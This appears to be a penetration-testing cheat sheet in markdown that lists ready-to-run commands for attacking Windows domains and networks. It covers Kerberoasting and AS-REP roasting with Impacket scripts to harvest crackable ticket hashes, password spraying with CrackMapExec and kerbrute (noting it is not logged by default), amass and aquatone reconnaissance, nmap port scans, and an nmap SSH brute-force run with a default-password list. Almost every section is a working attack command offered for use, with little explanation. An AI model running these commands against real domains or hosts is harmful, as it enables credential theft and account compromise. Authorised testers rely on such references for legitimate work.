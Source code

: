 ## Kerberoast
```
GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <TGSs_file>
GetUserSPNs.py 'DOMAIN.local/USER:Pass' -dc-ip 10.10.0.100 -request -outputfile spns.txt -options "0x40810010" -encryption "18" -request-user TARGET_SPN_ACCOUNT
```

## ASRepRoast
```
GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <AS_REP_file>
GetNPUsers.py DOMAIN.LOCAL/USERNAME:PASSWORD -request -format hashcat -outputfile ASREP.txt -dc-ip 10.10.0.100 -usersfile TARGET_USERS.txt
```
## Password Policy (current user)
```
net accounts /domain
```

## Password Spraying with CME
```
cme smb <ip> -U <users_file> -p <password> -d <domain> --continue-on-success
```

## Password spraying with Kerberos (not logged by default on Windows Server)
```
python kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
```
## AMASS (passive recon)
```
amass enum -passive -o amass-passive.txt -d <domain>
```
## AMASS (active + brute force)
```
amass enum -active -brute -min-for-recursive 4 -d <domain> -o amass-active.txt
```
## Aquatone
Install Chromium before with : sudo snap install chromium and add screenshot/ output option:
```
cat URLs.txt| ./aquatone --ports xlarge --screenshot-timeout 300000 --scan-timeout 6000 -out screenshots/
```
## NMAP
TCP all ports
```
nmap -sS -n -Pn --open -p- -iL <file_with_ips> -oN <output_file>
```
UDP top 1000
```
nmap -sU -n -Pn --open --top-ports 1000 -iL <file_with_ips> -oN <outputfile>
```
SSH brute force/common pass
```
nmap -p22 --script ssh-brute -iL IPs.txt -oN nmap-SSHDefaultPass.txt --script-args brute.credfile=ssh-betterdefaultpasslist.txt --script-args ssh-brute.timeout=5s
```
https://nmap.org/nsedoc/scripts/ssh-brute.html
